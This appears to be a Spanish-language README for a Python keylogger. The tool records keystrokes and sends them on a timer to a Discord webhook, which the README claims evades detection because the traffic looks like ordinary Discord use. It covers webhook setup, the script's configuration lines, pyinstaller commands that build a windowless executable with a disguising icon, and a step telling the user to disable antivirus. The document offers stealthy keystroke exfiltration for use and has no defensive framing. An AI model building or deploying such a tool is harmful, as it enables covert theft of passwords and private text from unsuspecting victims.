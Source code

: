 
# Keylogger que reporta a Discord #

Este script de python capturara todas las teclas apretadas durante una ventana de tiempo predefinida y las reportara a un servidor de Discord por medio de Webhooks. a diferencia de los metodos tradicionales como "Guardar en un txt" o "Enviar a un email", este metodo permanece indetectado ya que los request de webhook son considerados trafico normal de Discord.


## Deployment

- Tener Python instalado en su maquina, descargar el lenguaje desde [aca](https://www.python.org/downloads/).
- Crear una cuenta de discord, como hacerlo [aca](https://youtu.be/dinlzJlzIB4)

## Instalar librerias requeridas
```
python -m pip install -r requirements.txt
```

## Crear un servidor de Discord

Puedes usar [este](https://support.discord.com/hc/en-us/articles/204849977-How-do-I-create-a-server-) articulo para ver como hacerlo.

## Crear un Discord Webhook

Ingresa a la configuracion del servidor y selecciona Intergrations >>  Webhooks y crear un nuevo Webhook, se lo puede customizar y darle un nombre y un icono. Es necesario copiar al URL del webhook.

![screenshot1](https://imgur.com/CuLnE5c.png)

![screenshot2](https://imgur.com/24A58iM.png)

![screenshot3](https://i.imgur.com/i084ESb.png)

## Editar keylogger.py

Ahora que poseemos el webhook podemos editar el script en python. Debemos añadir la url al archivo y asegurarnos de colocar el timeframe en el cual deseamos que el kelogger haga los reportes. 

```Python
import keyboard,os
from threading import Timer
from datetime import datetime
from discord_webhook import DiscordWebhook, DiscordEmbed

SEND_REPORT_EVERY = "TIEMPO_EN_SEGUNDOS_ACA"
WEBHOOK = "URL_DEL_WEBHOOK_ACA"
```

## Ejecutar el script

Una vez hecho eso, podremos ejecutar el script correctamente.
Para ejecutar el script solo debemos colocar esto en la terminal:
```
python keylogger.py
```
si todo sale bien deberiamos ver el reporte en discord despues de esperar el tiempo establecido.
![c2](https://imgur.com/MxKQE7n.png)

## Compilar el script

Para convertir el archivo en un ejecutable necesitaremos la libreria  pyinstaller que fue incluida en el archivo requirements.txt.
Debemos abrir una terminal en el directorio donde se encuentre el archivo.
```
pyinstaller keylogger.py --onefile --noconsole
```
Por si desea un icono custom para el exe.
```
pyinstaller keylogger.py --onefile --noconsole --icon=ejemplo.ico
```

(Es necesario desactivar el windows defender/antivirus para probrar el programa)

# Instalador

Si se desea crear un instalador para el programa podemos seguir [este](https://www.youtube.com/watch?v=cVN62zhiNH0&t=519s) tutorial

